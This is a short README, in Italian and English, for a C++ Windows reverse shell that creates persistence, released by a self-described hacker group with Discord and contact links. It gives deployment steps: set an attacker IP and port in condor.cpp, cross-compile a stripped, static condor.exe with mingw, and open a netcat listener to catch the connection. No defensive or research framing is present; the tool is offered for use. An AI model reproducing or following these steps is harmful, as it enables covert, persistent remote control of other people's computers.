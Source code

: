 ##  reverse shell V1.0
<Language> C++
<Author>Condor
<Organization> I'M ROOT 
<Discord> https://discord.gg/wkn8gdEjjW
<Instagram> https://www.instagram.com/_samueleabbate/
<Info> samuele13213@gmail.com
<JobApplication> samuele13213@gmail.com
<Service> samuele13213@gmail.com

<ITA>
Una reverse shell che crea una persistenza!!!
Per qualsiasi problema o richiesta vi consiglio di unirvi nel discord di I'M ROOT "https://discord.gg/wkn8gdEjjW"
Sarò felice di aiutarvi.

<en>
A reverse shell that creates persistence !!!
For any problem or request I suggest you join the I'M ROOT discord 
"https://discord.gg/wkn8gdEjjW"
I will be happy to help you.

##  change The IP and Port number in the source code

    There is **condor.cpp** file you have to open and change the **ip address** and **port number**

## Compile it

    apt install mingw-w64

    i686-w64-mingw32-g++ condor.cpp -o condor.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc

## Start  the netcat Listener
    
    nc -lvnp <port number>

